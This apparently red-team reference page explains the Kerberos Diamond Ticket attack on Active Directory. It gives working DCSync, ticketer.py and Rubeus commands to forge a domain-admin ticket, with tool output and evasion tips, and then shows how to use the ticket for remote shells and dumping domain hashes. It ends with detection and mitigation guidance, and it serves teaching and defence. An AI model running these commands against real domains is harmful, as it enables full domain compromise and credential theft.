

## What Is a Diamond Ticket?

A Diamond Ticket is a refinement of the Golden Ticket attack designed to evade the detections that Golden Tickets reliably trigger. Instead of forging a TGT entirely from scratch, you:

1. Request a **real, legitimate TGT** from the KDC using valid user credentials
2. **Decrypt it** using the `krbtgt` hash
3. **Modify the PAC** to add the privileges you want (Domain Admin groups, etc.)
4. **Re-encrypt and re-inject** the modified ticket

The result is a ticket the KDC genuinely issued — it just doesn't know its PAC was tampered with after the fact.

The core advantage over Golden Ticket: because a real AS-REQ was sent, a real **Event ID 4768** fires at the domain controller. The "impossible session" pattern that makes Golden Tickets detectable — a TGS-REQ ([service ticket](/docs/kerberos/tickets/) request) with no preceding AS-REQ (initial login request) for the same account, meaning the TGT was never legitimately issued — disappears entirely.

## How Does a Diamond Ticket Attack Work?

A Diamond Ticket starts from a real TGT rather than a forged one. The attacker authenticates normally, decrypts the TGT the KDC returns using the stolen `krbtgt` key, edits the PAC to add privileged group memberships, re-encrypts it, and presents it as usual. Because a genuine AS-REQ preceded the request, the domain controller logs a complete and ordinary logon sequence.



The KDC sees a completely normal session: AS-REQ from jdoe, TGT issued, TGS-REQ from jdoe. What it cannot see is that the TGT's PAC was modified between the AS-REP (Authentication Service Response — the KDC's reply to the initial login request, containing the TGT) and the TGS-REQ. The KDC trusts the PAC because it decrypts correctly — as far as it can tell, the `krbtgt` key sealed it, so the contents must be legitimate.

## What Does a Diamond Ticket Attack Require?

- **`krbtgt` NTLM hash or AES256 key** — same as Golden Ticket. Required to decrypt the TGT the KDC issues and to re-sign the modified PAC.
- **Valid domain credentials** — a username and password (or hash) for any domain account. Used to request the initial legitimate TGT. The account does not need any special privileges.
- **Domain SID** — same `S-1-5-21-<three numbers>` identifier used in Golden and Silver Tickets.

Getting the `krbtgt` hash is identical to Golden Ticket — use DCSync:

```bash
secretsdump.py -just-dc-user krbtgt radiant.local/Administrator:'Admin@Radiant1!'@dc01.radiant.local
```

Refer to the [Golden Ticket note](/docs/kerberos/ticket-attacks/golden-ticket/) for the full hash extraction walkthrough.

## Forging the Ticket


  
`ticketer.py` with the `-request` flag performs the full Diamond Ticket flow in one step: it authenticates as the specified user, receives the real TGT, decrypts it with the `krbtgt` hash, modifies the PAC, and saves the result. The `\` at the end of each line is bash's line continuation character — the entire block runs as one command.

```bash
ticketer.py \
  -request \
  -user jdoe \
  -password 'Password123!' \
  -nthash 819af826bb148e603acb0f33d17632f8 \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  -groups 512,519,518,520,513 \
  Administrator
```

The flags:
- `-request` — triggers the Diamond Ticket flow instead of pure offline forging
- `-user` / `-password` — the real domain account used to get the initial TGT from the KDC
- `-nthash` — the `krbtgt` NT hash used to decrypt and re-sign the ticket
- `-groups` — group RIDs to inject into the PAC: `512` = Domain Admins, `519` = Enterprise Admins, `518` = Schema Admins, `520` = Group Policy Creator Owners, `513` = Domain Users
- `Administrator` — the username that will appear in the modified PAC (does not need to match the account used to request the TGT)

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Decrypting ticket using supplied credentials
 ("supplied credentials" here means jdoe's password/hash is used to unwrap the AS-REP session key,
  while the krbtgt hash decrypts the TGT body itself — two separate decryption steps)
[*] Customizing ticket for radiant.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

To use an NT hash instead of a plaintext password for the requesting account. Note that this command has **two different hash flags for two different purposes** — this is the most common source of confusion with Diamond Ticket on Linux:

```bash
ticketer.py \
  -request \
  -user jdoe \
  -hashes :a87f3a337d73085c45f9416be5787d86 \
  -nthash 819af826bb148e603acb0f33d17632f8 \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  -groups 512,519,518,520,513 \
  Administrator
```

- `-hashes :a87f3a337d73085c45f9416be5787d86` — **jdoe's** NT hash, used to authenticate as jdoe and request the initial TGT from the KDC. The colon-prefix format is standard Impacket: left of the colon is the LM hash (left empty), right is the NT hash.
- `-nthash 819af826bb148e603acb0f33d17632f8` — the **`krbtgt`** NT hash, used to decrypt the TGT the KDC returns and re-sign the modified PAC.
  
  
**Rubeus** has a dedicated `diamond` action. It requests a TGT for a real user, decrypts it with the `krbtgt` key, modifies the PAC, and injects the result. The backtick `` ` `` at the end of each line is PowerShell's line continuation character:

```powershell {linenos=table}
.\Rubeus.exe diamond `
  /krbkey:61a35e4c08e5b5cdbe6990dce99ef66a... `
  /enctype:aes `
  /user:jdoe `
  /password:Password123! `
  /domain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /dc:dc01.radiant.local `
  /ticketuser:Administrator `
  /ticketuserid:500 `
  /groups:512 `
  /ptt
```

The flags:
- `/krbkey` — the `krbtgt` AES256 key used to decrypt and re-sign the ticket
- `/enctype:aes` — tells Rubeus to request the initial TGT using AES encryption and to re-encrypt the modified ticket with AES. Preferred over RC4 because modern domains default to AES, and an RC4 ticket on an AES-capable domain is a visible anomaly
- `/user` / `/password` — the real domain account used to get the initial TGT
- `/ticketuser` — the username to appear in the modified PAC
- `/ticketuserid` — RID of that user (`500` is the fixed RID for the built-in Administrator account in every Windows domain)
- `/dc` — the domain controller to contact for the initial TGT request
- `/groups` — comma-separated group RIDs to inject
- `/ptt` — inject the final ticket directly into the current session

``` {linenos=table}
[*] Action: Diamond Ticket

[*] Requesting base TGT...
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIFpDCC...

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Reencrypting PAC
[*] Reencrypting EncTicketPart
[*] Reencrypting EncKrbCredPart

[+] Diamond ticket successfully forged!
[*] Ticket successfully imported!
```

**Using `/tgtdeleg` instead of explicit credentials**

If you already have a session on a domain-joined machine, Rubeus can use the machine's existing Kerberos context to obtain a forwardable TGT without typing any credentials — avoiding plaintext password exposure entirely:

```powershell
.\Rubeus.exe diamond `
  /krbkey:61a35e4c08e5b5cdbe6990dce99ef66a... `
  /enctype:aes `
  /tgtdeleg `
  /domain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /ticketuser:Administrator `
  /ticketuserid:500 `
  /groups:512 `
  /ptt
```

`/tgtdeleg` (TGT delegation) requests a forwardable TGT — "forwardable" is a ticket flag meaning the ticket can be handed off to another service to act on the user's behalf — using the current machine's existing Kerberos session. Just like users, domain-joined Windows machines have their own machine accounts and their own Kerberos tickets cached in [LSASS](/docs/redteam/credential-dumping/). `/tgtdeleg` uses those machine credentials to obtain a TGT, rather than requiring explicit user credentials. AD uses this same delegation mechanism when a service needs to access a backend resource as the logged-in user (for example, a web app accessing a database on behalf of the person who just logged in). Rubeus hijacks that mechanism to obtain a usable TGT without ever typing a password.
  


## Using the Ticket

Identical to Golden Ticket — inject and use with any Kerberos-aware tool.


  
```bash
export KRB5CCNAME=/tmp/Administrator.ccache

# Remote shell
psexec.py radiant.local/Administrator@dc01.radiant.local -k -no-pass

# File shares
smbclient.py radiant.local/Administrator@fileserver.radiant.local -k -no-pass

# Dump all domain hashes
secretsdump.py radiant.local/Administrator@dc01.radiant.local -k -no-pass
```
  
  
If you used `/ptt`, the ticket is already in your session:

```powershell
# C$ is a hidden Windows administrative share exposing the entire C: drive —
# automatically created on every Windows machine, only accessible to administrators
dir \\dc01.radiant.local\C$

# Enter-PSSession opens an interactive PowerShell shell on the remote machine,
# similar to SSH — authenticated via the injected Kerberos ticket
Enter-PSSession -ComputerName dc01.radiant.local
```

If you saved to disk, inject first:

```powershell
.\Rubeus.exe ptt /ticket:C:\Temp\diamond.kirbi
```
  


## Verification


  
```bash
klist
```

```
Ticket cache: FILE:/tmp/Administrator.ccache
Default principal: Administrator@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/11/2026 09:00:00  03/11/2026 19:00:00  krbtgt/RADIANT.LOCAL@RADIANT.LOCAL
```

The key difference from Golden Ticket: the expiry is **10 hours out**, not 10 years. This is the real TGT's lifetime — the KDC set it when it issued the original ticket. The normal lifetime is what makes Diamond Tickets blend in with legitimate traffic.
  
  
```powershell
klist
```

``` {linenos=table}
Current LogonId is 0:0x7a3b2

Cached Tickets: (1)

#0>     Client: Administrator @ RADIANT.LOCAL
        Server: krbtgt/RADIANT.LOCAL @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent
        Start Time: 3/11/2026 9:00:00 (local)
        End Time:   3/11/2026 19:00:00 (local)
        Renew Time: 3/18/2026 9:00:00 (local)
```

`End Time` is 10 hours out and `Renew Time` is 7 days — both are the standard values a legitimately issued TGT would have. Compare this to a Golden Ticket where `Renew Time` would be years in the future.
  


## Operational Notes

**Requires live KDC contact during forging.** Unlike Golden Ticket, you cannot create a Diamond Ticket fully offline. The initial AS-REQ needs to reach a domain controller. This means the machine you run the attack from must have network access to a DC.

**The requesting account's credentials are used but not elevated.** The real TGT is requested as `jdoe` — `jdoe`'s actual privileges are irrelevant. The krbtgt hash lets you swap out the PAC contents entirely after the fact. Any valid domain account works as the requesting identity.

**Ticket lifetime is real and enforced.** Because the base ticket came from the KDC, it expires when the KDC says it does — typically 10 hours. You cannot extend this without requesting a new base ticket. This is operationally different from Golden Tickets where you set an arbitrary lifetime.

**PAC comparison is still a viable detection path.** While Diamond Tickets defeat session-based detection, a defender who compares the claimed group memberships in the ticket's PAC against what the user actually has in Active Directory will spot the discrepancy. Tools like MDI perform this comparison.

**AES is strongly preferred.** Requesting the initial TGT and re-encrypting with AES keeps the ticket consistent with modern domain defaults. Using RC4 on a domain that enforces AES is immediately anomalous.

## How Do You Detect and Defend Against Diamond Tickets?

### What Logs Does a Diamond Ticket Generate?

- **Event ID 4768** at the DC — a real AS-REQ is sent for the requesting account (`jdoe`). This is the defining difference from Golden Ticket — the AS exchange genuinely happened.
- **Event ID 4769** at the DC — TGS-REQ fires when the modified TGT is presented to request service tickets.
- **Event ID 4624** at target service hosts — logon events for the impersonated user (`Administrator`).
- **[Sysmon](/docs/blueteam/lolbins-hunting/) Event ID 10** on the DC if hash was extracted via LSASS rather than DCSync.

### What Logs Does a Diamond Ticket Not Generate?

- **The PAC modification itself** — decrypting, editing, and re-encrypting the PAC happens entirely on the attacker's machine. No event fires for PAC tampering.
- **No session anomaly at the DC** — the 4768 and 4769 pair looks completely normal. There is no "impossible session" to hunt for. This is the entire point of the technique.
- The difference between `jdoe` requesting a TGT and `Administrator` appearing in downstream service access is the only visible seam, and only if someone correlates the 4768 username against the logon username at the service host.

### How Do You Mitigate Diamond Tickets?

- **Protect the `krbtgt` hash** — same as Golden Ticket. Diamond Tickets require the `krbtgt` key. No key, no attack. DC protection, Credential Guard, and PAW (Privileged Access Workstations — dedicated hardened machines used only for admin tasks, never for email or browsing, so a phishing email or drive-by download can't pivot to DC-level credentials) are the primary controls.
- **Enable PAC verification on sensitive services** — normally, a service just trusts whatever is in the ticket's PAC without checking back with the KDC. PAC verification forces the service to call the KDC via NETLOGON to confirm the PAC is genuine. The KDC then compares the PAC group memberships against the actual user record in AD and rejects any that don't match.
- **Rotate `krbtgt` twice** — invalidates the base key used to re-sign the modified ticket. Same two-pass rotation requirement as Golden Ticket.
- **Enforce AES-only Kerberos** — RC4 Diamond Tickets stand out in AES-only environments.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has a dedicated Diamond Ticket detection that compares PAC group memberships against the live directory. When the ticket claims Domain Admin membership for `jdoe` but `jdoe` isn't in Domain Admins, MDI fires. This is the most reliable control specifically against Diamond Tickets.
- **Microsoft Sentinel / Splunk** — correlate the username in Event ID 4768 against the username in subsequent Event ID 4624 events on service hosts. A 4768 for `jdoe` followed immediately by a 4624 for `Administrator` on a DC — with no separate `Administrator` 4768 — is a strong indicator.
- **Zeek / network monitoring** — monitor for the same DRSUAPI (Directory Replication Service Remote Protocol API) traffic patterns as Golden Ticket to catch the DCSync used to extract the `krbtgt` hash before the attack even starts.
- **CrowdStrike / [EDR](/docs/redteam/defender-bypass/)** — behavioral detection on Rubeus `diamond` action and the `ticketer.py -request` pattern. Catching the forging step is more reliable than hunting the ticket in use.

## References

### Original Research
- Charlie Clark (Semperis) — "Digging into Diamond Tickets" (2022); introduced the Diamond Ticket technique as a detection-evasion refinement of Golden Ticket, exploiting the KDC's inability to detect post-issuance PAC modification

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts for network protocols, including `ticketer.py -request` (Diamond Ticket flow) and `secretsdump.py` (krbtgt hash extraction)
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit (`diamond` action, `/tgtdeleg`)
- [mimikatz](https://github.com/gentilkiwi/mimikatz) — Windows credential tool (`lsadump::dcsync` for krbtgt hash extraction)

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-PAC — Privilege Attribute Certificate Data Structure](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/)
